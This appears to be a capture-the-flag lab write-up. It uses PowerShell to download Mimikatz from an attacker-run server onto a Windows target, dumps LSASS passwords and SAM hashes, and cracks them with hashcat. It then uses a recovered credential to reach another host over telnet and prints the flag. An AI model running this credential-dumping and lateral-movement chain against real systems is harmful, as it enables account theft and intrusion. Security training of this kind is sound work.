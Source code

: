 


# f9038f

## HASH CRACKING

0. Download the .exe file of Mimikatz: https://github.com/ParrotSec/mimikatz

1. Set up a Python server running in the directory you have the mimikatz.exe, ensure it is the one with 64 bits.

2. Upload it to the target after entering to powershell:

Invoke-WebRequest -Uri http://192.168.0.4:80/mimikatz.exe -OutFile C:\tools\mimikatz\mimikatz.exe

Remove-Item -Path "C:\tools\mimikatz.exe"

3. mimikatz moment:
	log
	privilege::debug
	sekurlsa::logonpasswords // dumping LSASS passwords
	extraction of sam hashes
	token::elevate
	lsadump::sam // dumping sam (security account manager) hashed it stores passwords of local accounts

4. Crack some of the hashed that has been obtained from the previous command with hashcat, the input should only be the hash:
	hashcat -m 1000 -a 0 -o cracked_sam.txt sam.txt pass.txt
	Hashcat actually did not work for me and I ended up using https://crackstation.net/
	
5. After trying some of them I got this interesting credentials:
	richard_gill:velvety
	
## LATERAL MOVEMENT
6. The passwords that have be been retrieved can be useful to other machines that we can discover through the target 10.0.3.12. If in the windows terminal you do ipconfig:

	Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : europe-west1-b.c.en2720-2017.internal
   Link-local IPv6 Address . . . . . : fe80::78c9:9662:5446:b39%5
   IPv4 Address. . . . . . . . . . . : 10.0.3.12
   Subnet Mask . . . . . . . . . . . : 255.255.255.255
   IPv4 Address. . . . . . . . . . . : 10.41.227.12
   Subnet Mask . . . . . . . . . . . : 255.255.255.255
   Default Gateway . . . . . . . . . : 10.41.224.1

 One thing I noticed was the DNS domain. 
 	nslookup europe-west1-b.c.en2720-2017.internal
		Server:  en2720-w21-sea-turtle
		Address:  10.0.3.229
	
If you do ping to this server there is connectivity.

It has a telnet service opened, the telnet port is 23:

	└─$ telnet 10.0.3.229 23
	Trying 10.0.3.229...
	Connected to 10.0.3.229.

The credentials found gave me access to the server and I found the flag:

	flag{f9038f2aae9c723fc69b516d4beb4774b2510cfcf2fff7}

	


	
